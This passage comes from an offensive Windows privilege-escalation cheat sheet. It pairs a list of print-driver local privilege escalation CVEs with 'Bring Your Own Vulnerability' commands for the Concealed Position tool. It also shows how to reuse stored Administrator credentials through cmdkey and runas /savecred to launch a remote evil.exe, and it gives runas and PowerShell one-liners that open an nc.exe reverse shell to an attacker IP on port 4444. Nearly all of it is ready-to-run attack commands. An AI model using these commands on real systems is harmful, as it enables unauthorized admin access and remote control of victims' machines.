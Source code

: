 #### Bring Your Own Vulnerability

Concealed Position : https://github.com/jacob-baines/concealed\_position

* ACIDDAMAGE - [CVE-2021-35449](https://nvd.nist.gov/vuln/detail/CVE-2021-35449) - Lexmark Universal Print Driver LPE
* RADIANTDAMAGE - [CVE-2021-38085](https://nvd.nist.gov/vuln/detail/CVE-2021-38085) - Canon TR150 Print Driver LPE
* POISONDAMAGE - [CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363) - Ricoh PCL6 Print Driver LPE
* SLASHINGDAMAGE - [CVE-2020-1300](https://nvd.nist.gov/vuln/detail/CVE-2020-1300) - Windows Print Spooler LPE

```powershell
cp_server.exe -e ACIDDAMAGE
# Get-Printer
# Set the "Advanced Sharing Settings" -> "Turn off password protected sharing"
cp_client.exe -r 10.0.0.9 -n ACIDDAMAGE -e ACIDDAMAGE
cp_client.exe -l -e ACIDDAMAGE
```

### EoP - Runas

Use the `cmdkey` to list the stored credentials on the machine.

```powershell
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

Then you can use `runas` with the `/savecred` options in order to use the saved credentials. The following example is calling a remote binary via an SMB share.

```powershell
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

Using `runas` with a provided set of credential.

```powershell
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

```powershell
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

### EoP - Abusing Shadow Copies
